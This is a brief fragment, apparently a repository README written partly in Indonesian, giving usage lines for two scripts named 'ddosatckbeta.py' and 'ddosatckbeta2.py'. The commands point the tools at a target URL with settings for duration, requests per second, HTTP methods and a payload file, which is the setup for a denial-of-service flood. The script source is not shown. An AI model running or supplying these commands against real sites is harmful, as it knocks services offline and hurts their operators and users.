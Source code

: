 untuk penggunaan beta 1:
"python3 ddosatckbeta.py --url https://target.com --duration 120 --rps 200 --methods "GET,POST" --payloads payloads.txt"

untuk penggunaan beta 2:
"python3 ddosatckbeta2.py --url target --duration 300 --rps 100"